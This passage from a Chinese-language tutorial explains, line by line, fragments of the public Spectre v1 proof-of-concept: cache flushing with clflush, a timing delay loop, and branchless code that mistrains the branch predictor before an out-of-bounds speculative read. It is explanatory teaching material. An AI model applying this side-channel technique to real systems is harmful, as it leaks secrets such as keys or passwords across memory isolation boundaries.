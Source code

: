 ```cpp
        /* Flush array2[256*(0..255)] from cache */
        for (i = 0; i < 256; i++)
            _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */
```

函数\_mm\_clflush对应于clflush指令，其作用是将指定地址的变量所在的缓存行失效，这样的话，下次就必须从内存中读取，从而降低了读取速度。

每次进行尝试时，为了确保瞬态执行过程中，越界访问的字节的确被读入缓存中，我们将瞬态读取5次；每次瞬态读取前，都要对分支预测器进行训练5次，具体代码如下所示：

```cpp
        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
        training_x = tries % array1_size;
        for (j = 29; j >= 0; j--)
        {
            _mm_clflush(&array1_size);
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */

            /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
            /* Avoid jumps in case those tip off the branch predictor */
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
            x = training_x ^ (x & (malicious_x ^ training_x));

            /* Call the victim! */
            victim_function(x);
        }

```

其中，`_mm_clflush(&array1_size);`用于清空含有变量array1\_size的缓存行，因为瞬态攻击时，需要用该变量与变量x进行比较：清空变量array1\_size的缓存后，每次比较都需要从内存加载，需要较长时间，为完成瞬态攻击提供足够的时间。

对于下面的for循环，就是用于等待一段时间：

```cpp
            for (volatile int z = 0; z < 100; z++)
            {
            } /* Delay (can also mfence) */
```

因为变量前面使用了关键词volatile，因此，每次读取该变量，都必须从内存中读取。这样的话，这个循环语句的执行就相对来说比较耗时，从而为清空变量array1\_size的缓存操作留下足够的时间。

然后，开始训练分支预测器。在这里，为了防止跳转指令对分支预测器的训练造成干扰，这里使用了一些小技巧：

```cpp
            x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
```

这一句的作用：当j % 6的值为0时，也就是j能被6整除时，让x的值为0xFFFF0000；当j % 6的值不为0时，也就是j不能被6整除时，让x的值为0x00000000。然后，执行下面一句：

```cpp
            x = (x | (x >> 16)); /* Set x=-1 if j%6=0, else x=0 */
```

这一句的作用：当j % 6的值为0时，也就是j能被6整除时，让x的值为0xFFFFFFFF；当j % 6的值不为0时，也就是j不能被6整除时，让x的值为0x00000000。然后，执行下面一句：
